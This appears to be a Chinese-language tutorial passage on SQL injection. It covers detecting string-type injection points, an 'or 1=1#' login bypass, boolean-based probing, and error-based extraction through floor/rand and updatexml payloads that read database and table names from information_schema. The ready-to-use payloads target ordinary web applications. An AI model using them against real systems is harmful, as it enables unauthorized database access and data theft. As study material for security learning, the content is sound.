 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```

（1） 加单引号：select * from table where name=’admin’’

由于加单引号后变成三个单引号，则无法执行，程序会报错；

（2） 加 ’and 1=1 此时sql 语句为：select * from table where name=’admin’ and 1=1 ,也无法进行注入，还需要通过注释符号将其绕过；

因此，构造语句为：select * from table where name =’admin’ and 1=1--+ 可成功执行返回结果正确；

（3） 加and 1=2-- 此时sql语句为：select * from table where name=’admin’ and 1=2 –-+ 则会报错

如果满足以上三点，可以判断该url为字符型注入。

### 按注入语法分类

1.boolean-based

页面只返回True和False两种类型页面。

	Length（）函数 返回字符串的长度
	Substr（）截取字符串
	Ascii（）返回字符的ascii码
	sleep(n)：将程序挂起一段时间 n为n秒
	if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句

	'and (length(database()))>10 --+
	当前数据库database（）的长度大于10，返回true页面，否则FALSE页面


	

2.error-based

[**报错型sql注入原理分析**](https://blog.51cto.com/wt7315/1891458)

使用能触发SQL报错机制的注入语句

三种报错注入常用的语句：

(1). 通过floor报错

	and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)
其中payload为你要插入的SQL语句

需要注意的是该语句将 输出字符长度限制为64个字符

	页面会报错：Duplicate entry '数据库名1' for key 'group_key'

**floor函数返回小于等于该值的最大整数**

(2). 通过updatexml报错

	and updatexml(1,payload,1)
同样该语句对输出的字符长度也做了限制，其最长输出32位

并且该语句对payload的返回类型也做了限制，只有在payload返回的不是xml格式才会生效

	1',1,updatexml(1,concat(0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a),1))#

	1',1,updatexml(1,concat(0x3a,(select database()),0x3a),1))#

```